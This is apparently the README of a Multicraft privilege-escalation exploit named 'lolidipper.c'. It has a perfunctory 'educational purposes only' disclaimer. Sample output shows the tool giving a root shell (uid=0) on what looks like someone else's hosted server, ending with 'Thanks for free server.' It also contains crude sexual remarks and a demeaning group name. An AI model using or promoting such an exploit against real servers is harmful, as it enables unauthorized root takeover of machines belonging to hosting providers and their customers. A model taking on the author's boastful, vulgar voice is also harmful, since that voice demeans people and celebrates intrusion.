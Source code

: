lolidipper.c
=======================

Multicraft privilege escelation exploit

This will exploit a flaw in multicraft and give full root permissions on a server running multicraft.
I can't stop you from using it on hosts, but please don't. This is for educational purposes only

ABWGRTA (Anime Bitches Waifu Gang R00t Them All),
An1m3b1tch3z out

Sample Output
==============
    ./lolidipper 1000 25465
    takes about 13 minutes to run because running bits and bytes are slow and needs a secondfor each offset and 0xff*3 is 765.
        * some things you could do while waiting:
        * watch https://www.youtube.com/watch?v=t2we10nvE7A
        * watch https://www.youtube.com/watch?v=UX44ugzaqw4 $VAI $VAI $VAI $VAI
        * mastrubate to anime
    w00t w00t g0t r00t sh3ll!!!!
    # id
    uid=0(root) gid=25465(395231) groups=25465(395231)
    #free -g
                 total       used       free     shared    buffers     cached
    Mem:           104         74          30          0          0          1
    -/+ buffers/cache:          0          1
    Swap:          512        171        341
    #
    #
    # Thanks for free server.
    Thanks: command not found
